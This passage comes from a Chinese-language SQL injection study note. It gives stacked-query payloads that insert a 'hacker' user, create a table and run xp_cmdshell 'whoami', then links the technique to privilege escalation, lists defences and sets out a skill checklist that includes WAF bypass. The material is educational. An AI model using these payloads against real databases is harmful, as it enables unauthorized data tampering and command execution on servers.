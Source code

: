 ```sql
-- 基础堆叠
1'; insert into users values(1,'hacker','password')--+

-- 创建表
1'; create table temp(id int,data varchar(100))--+

-- 执行存储过程
1'; exec xp_cmdshell 'whoami'--+
```

## 🔗 知识关联

### 与其他攻击技术的关系
- [[SQL注入]] → [[文件读写]] → [[代码执行]]
- [[SQL注入]] → [[信息收集]] → [[权限提升]]
- [[SQL注入]] → [[数据库提权]] → [[系统控制]]

### 防护技术关联
- [[参数化查询]] - 根本防护方法
- [[输入验证]] - 第一道防线
- [[WAF防护]] - 网络层防护
- [[最小权限原则]] - 减少危害

## 📊 技能等级

### 入门级 🔴
- [ ] 理解SQL注入原理
- [ ] 掌握基础联合注入
- [ ] 能使用SQLMap工具

### 进阶级 🟡
- [ ] 掌握各种盲注技术
- [ ] 能手工挖掘注入点
- [ ] 理解WAF绕过原理

### 高级 🟢
- [ ] 能绕过复杂WAF
- [ ] 掌握二次注入等高级技术
- [ ] 能开发自动化工具

### 专家级 🔵
- [ ] 发现新的注入技术
- [ ] 研究数据库新特性
- [ ] 贡献开源工具

## 🛠️ 实战工具
